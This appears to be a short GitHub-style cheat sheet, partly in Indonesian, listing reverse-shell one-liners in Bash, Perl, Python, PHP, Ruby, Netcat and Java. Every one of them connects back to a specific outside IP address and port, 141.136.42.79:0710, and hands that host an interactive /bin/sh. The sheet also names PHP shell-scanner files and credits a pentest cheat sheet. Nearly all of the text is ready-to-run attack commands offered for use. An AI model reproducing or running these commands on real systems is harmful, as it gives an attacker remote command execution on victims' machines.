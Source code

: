 ### Scanning Shell At Website
scan.php
scan1.php


### Reverse Shell
### Bash

bash -i >& /dev/tcp/141.136.42.79/0710 0>&1
 
### Perl
perl -e 'use Socket;$i="141.136.42.79";$p=0710;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("141.136.42.79",0710));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### PHP
php -r '$sock=fsockopen("141.136.42.79",0710);exec("/bin/sh -i <&3 >&3 2>&3");'

### Ruby
ruby -rsocket -e'f=TCPSocket.open("141.136.42.79",0710).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

### Netcat
nc -e /bin/sh 141.136.42.79 0710

jika netcat yang terinstall itu versi yang berbeda maka bisa memakai ini untuk reverse shell

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 141.136.42.79 0710 >/tmp/f

### Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/141.136.42.79/0710;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

Referensi
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
